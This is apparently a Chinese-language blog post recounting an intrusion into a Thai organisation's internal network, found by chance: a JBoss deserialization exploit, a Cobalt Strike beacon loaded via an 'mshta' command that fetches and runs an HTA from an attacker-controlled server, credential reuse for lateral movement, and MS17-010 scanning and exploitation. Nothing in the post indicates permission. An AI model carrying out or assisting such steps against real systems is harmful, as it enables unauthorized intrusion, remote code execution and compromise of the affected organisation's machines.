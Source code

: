```yaml
---
layout:     post
title:    某内网渗透（一） 
subtitle:   泰国某内网渗透。
date:       2019-09-12。
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透
    - 内网
    - 红队
---
```

# 某内网渗透（一）  

### 起源  
偶然间，随手翻到一个jboss的默认界面，一看ip还是泰国的，默认端口80是iis7的，我觉得可能有戏，掏出了jboss反序列化工具一跑，诶嘿还是administrator的，8说了开冲。  
![jboss](/img/th-jboss.png)



### 基本信息收集  
看了下网络配置：  
![jboss1](/img/th-ipconfig.png)  
emmm，应该是只有一个网段能用的，而且这机器似乎是有用来开虚拟机的。  
jboss工具掉链子了，直接掏出cs上线了。  
生成一个hta，开启文件下载服务，在工具那边执行：  
```
mshta http://xxx.xxx.xxx.xxx:8080/download/file.ext  
```
上线  
![jboss2](/img/th-beacon.png)
查看下端口：  
![jboss3](/img/th-ports.png)  
开得有点多。   
查看下进程：  
![jboss4](/img/th-tasklist.png)
好像没有杀软。  
查看下用户：
![jboss15](/img/th-users.png)  
看起来是被日烂了，不知道内网情况怎么样。  
直接在内网开始扫，把主机先发现下。  
![jboss5](/img/th-network.png)  
emmm，机器还是有不少的。开始尝试下横向了。  

### 横向  
发现了一台名称有点像的机器，我这台是XXX-WEB，那台是XXX-SERVER，试了下用这台的凭证去登陆，emmm成了。  
![jboss6](/img/th-psh.png)
返回了system的beacon。  
![jboss7](/img/th-2beacon.png)
其他的试了下基本都是不行了，换一下方法，用ms17-010，不过我这个cs用这个插件有问题。用不来，就直接把beacon转成meterpreter用。    
![jboss8](/img/th-swpan.png)  
添加下路由表。  
![jboss9](/img/th-addroute.png)  
扫描下ms17-10  
![jboss10](/img/th-ms17010scan.png)
稍等片刻  
![jboss11](/img/th-ms17010scan1.png)
emmm 还是挺多的。   
打一下  
![jboss12](/img/th-ms17010use.png)  
有返回，这时候发现了一个问题，没办法回连cs。  
转换也没法转，报错，用mshta，powershell也没法执行。  
等我再看看原因，再开下一篇。  
